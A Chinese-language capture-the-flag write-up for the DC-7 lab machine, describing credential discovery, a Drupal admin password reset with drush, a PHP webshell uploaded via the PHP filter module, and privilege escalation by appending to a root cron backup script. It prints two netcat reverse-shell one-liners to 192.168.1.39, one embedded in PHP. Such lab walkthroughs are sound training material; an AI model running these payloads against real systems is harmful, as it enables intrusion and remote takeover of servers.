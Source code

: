 # DC7 
## 简述  
收集信息 发现配置文件密码  重置密码  上传webshell 定时提权  
## 信息查询  

![20191130191011.png](https://i.loli.net/2019/11/30/8eo9IhT4tVJ1Oiu.png)
发现其中的用户名
### 搜索github项目  
![20191130190740.png](https://i.loli.net/2019/11/30/34OUBeGrNytI85w.png)  
发现其中的配置文件  
登录之后发现查看其中的数据 ，发现经常使用备份脚本进行备份，而且该脚本具有s的权限，但是不能对脚本进行修改，所以必须切换为一个能对脚本进行修改的用户  
可以使用drush对drupal网站的用户进行修改用户名和密码  
![20191130193024.png](https://i.loli.net/2019/11/30/EDZXPQW1IJs5ocR.png)  
反弹shell之后就能修改脚本文件了 直接在最后添加数据   
![20191130195607.png](https://i.loli.net/2019/11/30/dXcut6W1RVaKoyk.png)
其中的文件表示是w可以使用用户组对改文件进行修改  
### drush更改webapp的用户名密码  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201234842.png)
```
drush user-password admin --password=password  
这条命令执行的地方必须在/var/www/ 下执行才会成功  
```    
### 发现backup.sh     
在mbox当中提到了backup.sh  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201235334.png)
可以看到权限很奇怪，需要www-data的权限，所以考虑在drupal当中进行写入shell  

## 权限提升  
### 往drupal当中写入shell  
drupal8.上传webshell的方式    在Content—&gt;Add content--&gt;Basic page下，准备添加PHP代码反弹shell，但发现Drupal 8不支持PHP代码，百度后知道Drupal 8后为了安全，需要将php单独作为一个模块导入![.png](en-resource://database/1090:1)
Php介绍页面如下，模块包下载地址也附上https://www.drupal.org/project/phphttps://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz![.png](en-resource://database/1092:1)
点击Install new module，将下载模块包的链接添加上，点击Install![.png](en-resource://database/1094:1)
Install后跳转到模块添加成功页面，然后去激活这个模块![.png](en-resource://database/1096:1)
选择FILTERS，勾选PHP点击Install安装，安装成功后会有提示![.png](en-resource://database/1098:1)
  在其他的drupal版本当中可以留意是否可以修改php文件 只要有edit php 文件的地方就是机会  
![.png](en-resource://database/1100:1)
从中写入的shell是  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200202000252.png) 
```
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.39 1337 >/tmp/f');?> 
```
 
### 定时任务提权 
往其中填写的反弹shell的数据  
![20191130193408.png](https://i.loli.net/2019/11/30/hBPyp25cvFD39wW.png)  
```
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.39 1234 >/tmp/f    
```
![20191130194553.png](https://i.loli.net/2019/11/30/KGAYU1wzVrCbPyv.png)
总结  
收集配置信息拿到一个普通的网站权限  
在网站当中反弹了一个普通的shell 
再使用定时任务最后顺利提权  




